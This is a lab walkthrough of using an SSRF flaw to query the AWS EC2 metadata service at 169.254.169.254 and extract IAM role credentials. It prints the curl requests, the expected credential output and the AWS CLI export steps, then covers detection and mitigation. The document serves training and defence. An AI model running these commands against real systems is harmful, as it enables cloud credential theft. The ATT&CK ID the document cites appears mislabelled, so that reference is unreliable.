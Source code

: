 # SSRF to AWS Metadata Credential Extraction

Purpose: Demonstrates how to use SSRF to access AWS EC2 instance metadata and extract IAM credentials. Matches lab flows from PwnedLabs and BTLO.

Server-Side Request Forgery (SSRF) is a web application vulnerability that allows an attacker to make arbitrary HTTP requests from a vulnerable server. In cloud environments like AWS, SSRF becomes highly dangerous when used to access the EC2 instance metadata service, which hosts IAM credentials, tokens, and instance information.

This walkthrough demonstrates how an attacker could exploit an SSRF vulnerability in a cloud-hosted web application to access AWS IAM credentials from the metadata API (169.254.169.254). This technique is widely used in real-world cloud breaches and is included in the MITRE ATT&CK framework under T1557.003: Cloud Instance Metadata API.

This lab was conducted in a controlled environment using a simulated SSRF vulnerability hosted in a cloud-based web application. Platform: PwnedLabs / BTLO (Blue Team Labs Online). Target: Web server hosted on AWS EC2 with a curl-based SSRF parameter. Vulnerability: url= parameter that fails to validate input properly. Attacker Access: External user can inject requests via browser or curl. Detection Scope: AWS CloudTrail, web server logs, metadata access attempt. The goal was to simulate an attacker exploiting this SSRF to retrieve IAM credentials from the metadata service, then abuse those credentials using the AWS CLI.

# SSRF injection example – this is a placeholder and will only work in the lab environment
curl 'http://vulnerable-app.local/api/fetch?url=http://169.254.169.254'

curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/webapp-role

Expected output:
{
  "AccessKeyId": "...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "..."
}

export AWS_ACCESS_KEY_ID="..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."

aws sts get-caller-identity

Cloud defenders can detect this behavior using: CloudTrail logs showing unexpected calls to metadata IP from internal apps. Web server logs containing 169.254.169.254 in user-supplied input. VPC Flow logs with outbound connections to the metadata IP. IAM usage logs showing a token suddenly used for unusual services.

Mitigation & Response: Require IMDSv2 (Instance Metadata Service v2) on all EC2 instances. Use strict input validation on all URL parameters. Enforce least privilege for IAM roles assigned to EC2. Log and alert on traffic to the metadata IP range: 169.254.169.254.

Tools Used: curl – For testing SSRF and extracting metadata. AWS CLI – To use the stolen credentials for identity verification. PwnedLabs / BTLO – Simulated cloud lab environment for SSRF testing. CloudTrail / VPC Logs – For detecting post-exploitation artifacts.

References:
https://attack.mitre.org/techniques/T1557/003/
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
https://blog.assetnote.io/2021/01/13/exploiting-ssrf-in-aws/
